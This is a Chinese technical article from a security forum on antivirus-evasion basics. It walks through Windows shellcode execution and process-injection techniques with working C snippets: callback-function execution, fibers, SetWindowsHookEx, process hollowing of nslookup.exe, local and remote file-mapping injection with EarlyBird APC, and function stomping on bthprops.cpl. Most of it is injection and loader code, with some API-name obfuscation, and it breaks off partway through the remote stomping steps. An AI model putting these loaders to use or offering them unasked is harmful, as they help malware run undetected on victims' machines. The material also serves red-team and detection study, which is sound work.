# 免杀基础-常见shellcode执行方式-先知社区

> **来源**: https://xz.aliyun.com/news/16388  
> **文章ID**: 16388

---

在本篇文章中，我们将探讨常见的 shellcode 执行方式

部分在之前文章中具体分析过就不再赘述

所有代码 <https://github.com/Arcueld/ShellcodeExec>

# 常见shellcode执行方式

如下是常见的shellcode执行 或内存分配方式

内联汇编 指针 APC注入 EarlyBird 纤程 基于资源 回调函数 进程镂空 TLS 线程劫持 SetWindowHookEx MappingInjection MappingInjection联动EarlyBird

# 回调函数

基于特定的`WindowsAPI` 如 `EnumThreadWindows`

更多的API可以在<https://github.com/aahmad097/AlternativeShellcodeExec找到>

API传入的其它参数 和是否成功调用 我们都不关心 只要加载shellcode即可



```
DWORD dwOldProtection;

    LPVOID lpMem = VirtualAlloc(NULL, sizeof(shellcode), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    memcpy(lpMem, shellcode, sizeof(shellcode));
    VirtualProtect(lpMem, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &dwOldProtection);

    EnumThreadWindows(NULL, (WNDENUMPROC)lpMem, NULL);

```

部分API可能需要前置条件 比如`SymEnumProcesses`

去MSDN查文档满足条件即可





注意 通过回调函数上线只能在本地进程 远程不行

# 纤程

纤程(fiber) 是用户态的线程 可以通过线程转换 所有纤程都是平等的 不存在主纤程的说法 任一纤程返回程序都将退出

通过`ConvertThreadToFiber`将当前线程转换为纤程

通过`CreateFiber`从该纤程中创建新线程 写入shellcode

`SwitchToFiber` 执行shellcode



```
DWORD dwOldProtection;

    LPVOID lpMem = VirtualAlloc(NULL, sizeof(shellcode), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
    memcpy(lpMem, shellcode, sizeof(shellcode));
    VirtualProtect(lpMem, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &dwOldProtection);

    ConvertThreadToFiber(NULL);
    LPVOID lpFiber = CreateFiber(sizeof(shellcode), (LPFIBER_START_ROUTINE)lpMem, NULL);
    SwitchToFiber(lpFiber);

```



# SetWindowHookEx

这里通过`SetWindowHookEx`挂钩当前进程主线程 `WH_GETMESSAGE` 监视发布到消息队列的消息

后续通过`PeekMessage`从消息队列中获取消息 触发钩子的函数(shellcode)


```
DWORD dwOldProtection;

LPVOID lpMem = VirtualAlloc(NULL, sizeof(shellcode), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
memcpy(lpMem, shellcode, sizeof(shellcode));
VirtualProtect(lpMem, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &dwOldProtection);
HHOOK hhk = SetWindowsHookEx(WH_GETMESSAGE, (HOOKPROC)lpMem, NULL, GetCurrentThreadId());

MSG msg;

PostThreadMessage(GetCurrentThreadId(), WM_USER, 0, 0);
PeekMessage(&msg, NULL, 0, 0, PM_REMOVE);

UnhookWindowsHookEx(hhk);

```



# 进程镂空

Process Hollowing

具体步骤如下

1. 通过`CreateProcess`创建主线程挂起的进程

```
STARTUPINFO si = { sizeof(STARTUPINFO) };
PROCESS_INFORMATION pi;

CreateProcess(NULL, _wcsdup(L"C:\\Windows\\System32\\nslookup.exe"),NULL,NULL,false,CREATE_SUSPENDED,NULL,NULL,&si,&pi);

```

1. GetThreadContext获取线程上下文 从PEB中读映像基址

```
PVOID RemoteImageBase;
CONTEXT context;
context.ContextFlags = CONTEXT_ALL;

GetThreadContext(pi.hThread, &context);


#ifdef _WIN64
    ReadProcessMemory(pi.hProcess, (PVOID)(context.Rdx + (sizeof(SIZE_T) * 2)), &RemoteImageBase, sizeof(PVOID), NULL);
#endif
#ifdef _X86_
    ReadProcessMemory(pi.hProcess, (PVOID)(context.Ebx + 8), &RemoteImageBase, sizeof(PVOID), NULL);
#endif

```

1. 获取注入pe文件内容

```
char path[] = "C:\\Windows\\System32\\calc.exe";
hFile = CreateFileA(path, GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
dwFileSize = GetFileSize(hFile, NULL); 
FileImage = VirtualAlloc(NULL, dwFileSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
ReadFile(hFile, FileImage, dwFileSize, &FileReadSize, NULL);
CloseHandle(hFile);


pDosHeaders = (PIMAGE_DOS_HEADER)FileImage;  
pNtHeaders = (PIMAGE_NT_HEADERS)((LPBYTE)FileImage + pDosHeaders->e_lfanew);

```

1. 镂空

```
if ((SIZE_T)RemoteImageBase == pNtHeaders->OptionalHeader.ImageBase)
    {
        NtUnmapViewOfSection(pi.hProcess, RemoteImageBase); 
    }

```

1. 分配内存 写入pe文件

```
LPVOID lpMem = VirtualAllocEx(pi.hProcess, (PVOID)pNtHeaders->OptionalHeader.ImageBase, pNtHeaders->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
NtWriteVirtualMemory(pi.hProcess, lpMem, FileImage, pNtHeaders->OptionalHeader.SizeOfHeaders, NULL);

for (int i = 0; i < pNtHeaders->FileHeader.NumberOfSections; i++)
{
    pSectionHeaders = (PIMAGE_SECTION_HEADER)((LPBYTE)FileImage + pDosHeaders->e_lfanew + sizeof(IMAGE_NT_HEADERS) + (i * sizeof(IMAGE_SECTION_HEADER)));
    NtWriteVirtualMemory(pi.hProcess, (PVOID)((LPBYTE)lpMem + pSectionHeaders->VirtualAddress), (PVOID)((LPBYTE)FileImage + pSectionHeaders->PointerToRawData), pSectionHeaders->SizeOfRawData, NULL);
}

DWORD oldProtect;
VirtualProtectEx(pi.hProcess,lpMem,pNtHeaders->OptionalHeader.SizeOfImage,PAGE_EXECUTE_READWRITE,&oldProtect);

```

1. 修改目标线程入口 并恢复线程

```
#ifdef _WIN64
    context.Rcx = (SIZE_T)((LPBYTE)lpMem + pNtHeaders->OptionalHeader.AddressOfEntryPoint);
    NtWriteVirtualMemory(pi.hProcess, (PVOID)(context.Rdx + (sizeof(SIZE_T) * 2)), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL);
#endif
#ifdef _X86_
    context.Eax = (SIZE_T)((LPBYTE)lpMem + pNtHeaders->OptionalHeader.AddressOfEntryPoint);
    NtWriteVirtualMemory(pi.hProcess, (PVOID)(context.Ebx + (sizeof(SIZE_T) * 2)), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL);
#endif


    SetThreadContext(pi.hThread, &context);
    ResumeThread(pi.hThread);

```



# 映射注入

## 本地

通过`CreateFileMapping` 创建一个文件映射对象

通过`MapViewOfFile` 映射到内存

这两步类似`VirtualAlloc` 不过申请的内存类型是Mapped

然后执行shellcode 随便怎么执行 这里方便起见用回调

```
HANDLE hMapping = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, sizeof(shellcode), NULL);
    LPVOID lpMem = MapViewOfFile(hMapping, FILE_MAP_WRITE | FILE_MAP_EXECUTE, NULL, NULL, sizeof(shellcode));
    memcpy(lpMem, shellcode, sizeof(shellcode));
    EnumThreadWindows(NULL, (WNDENUMPROC)lpMem, NULL);

```



## 远程

还是先创建文件映射对象 然后映射到内存 写入shellcode

额外的一步是通过`MapViewOfFile2` 将本地文件视图映射到远程进程

`MapViewOfFile2` 与 `MapViewOfFile` 共享文件映射句柄 所以任何对本地映射视图中的有效载荷的任何修改都会反映在远程进程的远程映射视图中的文件中

注意进程句柄必须有`PROCESS_VM_OPERATION` 权限 所以这里创建完进程后通过`OpenProcess`指定`PROCESS_VM_OPERATION`再拿进程句柄 pi.hProcess不行

方便起见这里用`CreateRemoteThread` 如果这里用EarlyBird的话就是`MapViewOfFile联动EarlyBird`

```
STARTUPINFO si = { sizeof(STARTUPINFO) };
    PROCESS_INFORMATION pi;

    HANDLE hMapping = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, sizeof(shellcode), NULL);
    LPVOID lpMem = MapViewOfFile(hMapping, FILE_MAP_WRITE | FILE_MAP_EXECUTE, NULL, NULL, sizeof(shellcode));
    memcpy(lpMem, shellcode, sizeof(shellcode));
    CreateProcess(NULL, _wcsdup(L"C:\\Windows\\System32\\nslookup.exe"), NULL, NULL, false, NULL, NULL, NULL, &si, &pi);
    HANDLE hProcess = OpenProcess(PROCESS_VM_OPERATION, false, pi.dwProcessId);
    LPVOID addr = MapViewOfFile2(hMapping, hProcess, NULL, NULL, NULL, NULL, PAGE_EXECUTE_READWRITE);
    printf("\t[+] Remote Mapping Address : 0x%p \n", addr);


    CreateRemoteThread(hProcess, NULL, NULL, (LPTHREAD_START_ROUTINE)addr, NULL, NULL, NULL);

```





## MapViewOfFile联动EarlyBird

和上面那个不同的点在于

创建主线程挂起的进程

`CreateProcess(NULL, _wcsdup(L"C:\\Windows\\System32\\nslookup.exe"), NULL, NULL, false, CREATE_SUSPENDED, NULL, NULL, &si, &pi);`

插入addr到APC队列

`QueueUserAPC((PAPCFUNC)addr, pi.hThread, 0);`

恢复主线程 触发APC

`ResumeThread(pi.hThread);`

```
STARTUPINFO si = { sizeof(STARTUPINFO) };
    PROCESS_INFORMATION pi;

    HANDLE hMapping = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, sizeof(shellcode), NULL);
    LPVOID lpMem = MapViewOfFile(hMapping, FILE_MAP_WRITE | FILE_MAP_EXECUTE, NULL, NULL, sizeof(shellcode));
    memcpy(lpMem, shellcode, sizeof(shellcode));
    CreateProcess(NULL, _wcsdup(L"C:\\Windows\\System32\\nslookup.exe"), NULL, NULL, false, CREATE_SUSPENDED, NULL, NULL, &si, &pi);
    HANDLE hProcess = OpenProcess(PROCESS_VM_OPERATION, false, pi.dwProcessId);
    LPVOID addr = MapViewOfFile2(hMapping, hProcess, NULL, NULL, NULL, NULL, PAGE_EXECUTE_READWRITE);
    printf("\t[+] Remote Mapping Address : 0x%p \n", addr);

    QueueUserAPC((PAPCFUNC)addr, pi.hThread, 0);
    ResumeThread(pi.hThread);

```

值得注意的是调用`NtMapViewOfSection` 在微步中被标记为`高危行为`

# Function Stomping Injection

## 本地

通过篡改函数 导致函数执行其它逻辑

首先是通过`loadlibrary`加载dll到内存 然后通过`GetProcAddress`检索地址

这里篡改的函数需要是非常用的 否则可能会出现问题 这里选择`bthprops.cpl`中的`BluetoothFindDeviceClose`

首先是获取地址

```
LPVOID sacrificedAddr = GetProcAddress(LoadLibrary(L"bthprops.cpl"), "BluetoothFindDeviceClose");

```

修改内存权限为`RWX` 写入shellcode



```
DWORD   dwOldProtection = NULL;
VirtualProtect(sacrificedAddr, sizeof(shellcode), PAGE_READWRITE, &dwOldProtection);
memcpy(sacrificedAddr, shellcode, sizeof(shellcode));
VirtualProtect(sacrificedAddr, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &dwOldProtection);

```



然后执行即可 这种方式避免了通过`VirtualAlloc`申请内存

随便怎么执行都行 这里用指针

```
typedef void (*BluetoothFindDeviceClose)();
    BluetoothFindDeviceClose pFunc = (BluetoothFindDeviceClose)sacrificedAddr;
    pFunc();
```



可以通过静态库来避免使用`LoadLibrary` 和 `GetProcAddress`

```
#include <bluetoothapis.h>


#pragma comment (lib,"Bthprops.lib")
....

LPVOID sacrificedAddr = &BluetoothFindDeviceClose;
DWORD   dwOldProtection = NULL;
VirtualProtect(sacrificedAddr, sizeof(shellcode), PAGE_READWRITE, &dwOldProtection);
memcpy(sacrificedAddr, shellcode, sizeof(shellcode));
VirtualProtect(sacrificedAddr, sizeof(shellcode), PAGE_EXECUTE_READWRITE, &dwOldProtection);

typedef void (*BluetoothFindDeviceClose)();
BluetoothFindDeviceClose pFunc = (BluetoothFindDeviceClose)sacrificedAddr;
pFunc();

```



## 远程

在远程进程中必须已经载入了对应dll

具体步骤如下

1. 创建进程

```
STARTUPINFO si = { sizeof(STARTUPINFO) };
PROCESS_INFORMATION pi;

CreateProcess(NULL, _wcsdup(L"C:\\Windows\\System32\\nslookup.exe"), NULL, NULL, false, CREATE_SUSPENDED, NULL, NULL, &si, &pi);

```

1. 申请内存写入dll路径

```
TCHAR* szDllPath = _wcsdup(L"bthprops.cpl");
LPVOID lpDllPath = VirtualAllocEx(pi.hProcess, NULL, _tcslen(szDllPath) * sizeof(TCHAR) + sizeof(TCHAR), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
char str1[] = { 'N','t','W','r','i','t','e','V','i','r','t','u','a','l','M','e','m','o','r','y','\0' };
pNtWriteVirtualMemory NtWriteVirtualMemory = (pNtWriteVirtualMemory)GetProcAddress(LoadLibraryA("ntdll.dll"), str1);

NtWriteVirtualMemory(pi.hProcess, lpDllPath, szDllPath, _tcslen(szDllPath) * sizeof(TCHAR) + sizeof(TCHAR), NULL);

```

1. 获取loadLibrary地址 创建远程线程调用loadLibrary加载指定dll到远程进程空间

```
